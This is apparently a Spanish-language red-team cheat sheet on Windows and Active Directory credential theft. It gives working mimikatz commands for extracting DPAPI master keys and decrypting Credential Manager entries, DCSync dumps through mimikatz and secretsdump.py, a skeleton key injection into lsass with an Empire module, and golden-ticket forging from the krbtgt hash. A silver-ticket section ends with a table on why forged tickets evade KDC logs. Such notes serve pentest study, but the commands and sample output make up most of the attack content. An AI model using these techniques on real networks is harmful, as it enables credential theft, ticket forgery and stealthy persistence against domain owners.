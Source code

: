 # CREDENTIAL ACCESS (WINDOWS LOCAL):

## DPAPI:
Es el "protocolo" usado por microsoft en base a una "mastek key" con la que se puedan descrifrar y cifrar datos por los desarrolladores, por ejemplo los navegadores pueden cifrar las contraseñas en base a DPAPI, un dato importante es que la Master Key puede variar en base a la contraseña del usuario.

### Get Master key:
Lo más comun es que con mimikatz lo podamos conseguir, la key usualmente esta almacenada en:

- C:\Users\USER\AppData\Roaming\Microsoft\Protect\
- C:\Users\USER\AppData\Local\Microsoft\Protect

NOTA:
- Roaming (AppData\Roaming\Protect): Los datos y claves almacenados aquí se pueden sincronizar entre diferentes dispositivos cuando el usuario tiene un perfil móvil, permitiendo que los datos protegidos sean accesibles en cualquier dispositivo del dominio.
- Local (AppData\Local\Protect): Los datos y claves se limitan al dispositivo donde fueron generados, por lo que solo serán accesibles en esa máquina específica.

Dentro de estas carpetas encontraremos otra carpeta con un SID, donde contiene el fichero con una denominación szGuid.

La primer tarea es justamente encontrar la ruta completa, que debemos usar cmd al ser ficheros ocultos.
```
> dir /a:h C:\Users\USER\AppData\Roaming\Microsoft\Protect\<S-1-5-21-3097112084-1706841912-3560390538-1000>\
> dir /a:h C:\Users\USER\AppData\Roaming\Microsoft\Protect\<S-1-5-21-3097112084-1706841912-3560390538-1000>\
```

El valor del SID variara entre dispositivos.

Obtenida la ruta completa podemos extraer el master key.
```
mimikatz> dpapi::masterkey /in:"C:\Users\USER\AppData\Roaming\Microsoft\Protect\S-1-5-21-3097112084-1706841912-3560390538-1000\313fbe20-e5fd-2609-33d3-6b085b58e987" /sid:S-1-5-21-3097112084-1706841912-3560390538-1000 /password:contraseñaejemplo /protected
(...)
[masterkey] with password: contraseñaejemplo (protected user)
  key : cc1f3539ee123435cd425b87b3adb9ce5fe043ed7d7d3892a88093879fa348f1e0d0102eff9c19ca32a7f001450e7417353258abf48deeccac78ddc390d28be8
  sha1: dc1038(...)
```

Despues ya teniendo la masterkey podemos descrifrar los datos aparte, o con el mismo mimikatz, podemos buscar las credenciales guardadas en el windows "Credential Manager" donde se almacenan por ejemplo las contraseñas de RDP.
```
> dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\Credentials\98A34CA2D99C1CEBB9365414C74839F1 
(...)
 TargetName     : Domain:target=testin.home
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : prueba
  CredentialBlob : prueba
  Attributes     : 0
> dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\Credentials\98A34CA2D99C1CEBB9365414C74839F1 /masterkey:cc1f3539ee123435cd425b87b3adb9ce5fe043ed7d7d3892a88093879fa348f1e0d0102eff9c19ca32a7f001450e7417353258abf48deeccac78ddc390d28be8
```

**Considerar que pueden haber multiples masterkey.**

# CREDENTIAL ACCESS (DOMAIN):

## DCSYNC:
Proceso de replicación nativa de windows, donde se requieren los permisos:

- DS-Replication-Get-Changes
- Replicating Directory Changes All
- Replicating Directory Changes In Filtered Set

Ya sea para un usuario, o para un AD que este dentro de un grupo con los permisos asignados.

La explotación puede ser tanto local y remoto.

### Local:
```
lsadump::dcsync /user:dcorp o krbtgt(u otro usuario pero en este caso el hash de ntlm de usuario krbtgt es el requerido para emitir golden tickets)
```

### Remoto:
```
> secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
```

NOTA: un escenario que podria pasar es que por ejemplo, logremos conseguir un usuario y contraseña del AD con solo permisos de replicación, luego consigamos la replicación (HASH NTML) de un usuario como el de krbtgt, y ya en base a este usuario logremos emitir goldentickets del domain admin.

## Key Skeleton attack:
En resumen el ataque es "sencillo", lo que se hace es modificar mediante una inyección en memoria a lsass (encargado de la autenticación) haciendo que ademas de permitir la autenticación por medio de la contraseña guardada en el AD, tambien permita la autenticación con una "master key" inyectada.
Esto hace que el atacante pueda autenticarse con la master key usando cualquier usuario, teniendo permanencia hasta que el AD se reinicie o el proceso inyectado sea matado.
```
mimikatz> privilege::debug
mimikatz> misc::skeleton

Empire:dc> usemodule powershell/persistence/misc/skeleton_key 
```

## KERBEROS ATTACK:

### Proceso simplificado de emisión de tickets:

- (Usuario) → envía: Credenciales (nombre de usuario y contraseña cifrada) → (Authentication Service, AS parte del Key Distribution Center (KDC))
- (AS) → emite: Ticket Granting Ticket (TGT) → (Usuario, almacena el ticket localmente)
- (Usuario) → envía: TGT → al (Ticket Granting Service - TGS, parte del Key Distribution Center (KDC))
- (TGS) → emite: Service Ticket (ST) → (Usuario, almacena el ticket localmente)
- (Usuario) → envía: Service Ticket (ST) → (Servidor de servicio unido a dominio)

### Proceso sobre simplificado de emisión de tickets:
1- (Usuario) → envía: Contraseña → (AS) → emite: TGT
2- (Usuario) → envía: TGT → (TGS) → emite: Service Ticket (ST)
3- (Usuario) → envía: Service Ticket (ST) → (Servicio de servidor unido a dominio)

### Terminos comunes:
- Ticket Granting Ticket = Golden Ticket
- Service Ticket = Silver Ticket
- KRBTGT = Usuario interno del Key Distribution Center (KDC) unico que tiene la llave de cifrado valida para firmar los tickets, ni un domain admin puede firmar tickets.

### Ataques comunes en kerberos:

#### Golden ticket attack:
El proceso puede variar pero basicamente es obtener un ticket de tipo TGT.

1- Obtener el hash de krbtgt:
- lsadump::dcsync /domain:domain name /user:krbtgt

2- Usar pass the hash a la cuenta de krbtgt para emitir TGT:
- kerberos::golden /domain:domain name /aes256:SID /rc4:KRBTGT-hash-value /id:value /user:username
- se guardara el ticket como ticket.kirbi

#### Silver ticket attack:
El proceso se basa en que sí obtienes el hash NTLM de de un servicio, puedes firmar en base a este hash el ticket, creando un servicio de TGS falso, emitiendo un ST con incluso un usuario falso, que cuando se envia al servidor con el servicio, no va y valida con el KDC que el ST sea valido, simplemente lo descifra usando su hash NTLM y acepta la conexión.

¿Y sí ya tenemos el hash ntlm porque no simplemente me autentico usando el hash? Usar un ST falsificado tiene ventajas como:


| **Aspecto**                        | **Usar Contraseña/Hash NTLM**             | **Silver Ticket Attack**                      |
|------------------------------------|-------------------------------------------|-----------------------------------------------|
| **Interacción con el KDC**         | Requiere autenticación con el KDC         | No interactúa con el KDC                      |
| **Rastro en logs del KDC**         | Sí, deja registros                        | No deja rastro en el KDC                      |
| **Privilegios**                    | Limitado a los privilegios reales de la cuenta | Control sobre los privilegios en el ticket    |
| **Duración del acceso**            | Depende de la sesión y autenticación       | Puedes generar tickets con larga duración     |
| **Detección**                      | Más fácil de detectar (actividad en los logs) | Más difícil de detectar (sin interacción KDC) |
| **Reutilización del acceso**       | Autenticación repetida con credenciales   | Ticket persistente, reutilizable              |































